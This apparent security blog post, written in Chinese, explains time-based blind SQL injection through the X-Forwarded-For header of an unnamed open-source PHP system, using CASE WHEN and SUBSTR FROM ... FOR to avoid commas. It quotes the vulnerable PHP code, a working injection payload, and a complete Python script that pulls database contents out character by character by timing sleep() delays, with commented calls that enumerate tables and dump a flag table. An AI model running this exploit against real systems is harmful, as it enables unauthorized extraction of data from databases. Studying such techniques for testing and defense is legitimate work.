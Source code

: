 ```yaml
---
id: 736
layout: post
title: 'sql注入时case when ... then ... else ...end 的应用'
date: 2016-05-13 18:37:00
author: virusdefender
tags: 安全
---
```


在基于时间的盲注的时候，一般使用的是if语句，如果符合条件就sleep，但是部分不能使用逗号的场景下，还可以使用`case when #condition then ... else ... end`语句来代替if语句，参考http://dev.mysql.com/doc/refman/5.7/en/control-flow-functions.html。

某开源系统中

```php
$this->ip = mysqli_real_escape_string($mysqli,$_SERVER['REMOTE_ADDR']);
if( !empty( $_SERVER['HTTP_X_FORWARDED_FOR'] ) ){
    $REMOTE_ADDR = $_SERVER['HTTP_X_FORWARDED_FOR'];
    $tmp_ip=explode(',',$REMOTE_ADDR);
    $this->ip = $tmp_ip[0];
}
```

然后注入点在insert和update语句中。一个盲注场景，没有报错和回显。

这里在`X-FORWARDED-FOR`中按照逗号分隔取IP，而这个字段是用户可控的，需要不出现逗号，或者第一个逗号之前是完整的payload，所以这里不能使用if了，而是使用case语句代替。

当然mid函数也不能用了，需要替换为`substr($string from $post for $length)`的写法。

如果`$string`是sql语句，那就加一个括号。

然后可以按照 https://virusdefender.net/index.php/archives/590/ 逐步的获取全部数据。

一个例子是`1.1.1.1' and case when ord(substr((select username from db.table limit 1) from 1 for 1))=98 then sleep(2) else 1 end and '1.2.3.4`

![img][1]

最终实现的代码是

```python
# coding=utf-8
import time
import requests


url = "http://example.com/"


def get_info(sql):
    print (sql, )
    for position in range(1, 30):
        for ord in range(32, 127):
            start_time = time.time()
            xff = "1.1.1.1' and case when ord(substr({sql} from {position} for 1))={ord} then sleep(3) else 1 end and '1.2.3.4".format(sql=sql, position=str(position), ord=ord)
            # print(xff)
            r = requests.get(url, headers={"X-FORWARDED-FOR": xff})
            end_time = time.time()
            if end_time - start_time > 2.9:
                print (position, chr(ord))
                break
            # print (position, c)
        else:
            return

#get_info("version()")
#get_info("user()")
#for i in range(2):
#    get_info("(select table_name from information_schema.tables where table_schema='ip_db' limit 1 offset {offset})".format(offset=i))

#get_info("(select column_name from information_schema.columns where table_name='flag' and table_schema='ip_db' limit 1)")
#get_info("(select flag from ip_db.flag limit 1)")

```


  [1]: http://storage.virusdefender.net/blog/images/736/1.jpg
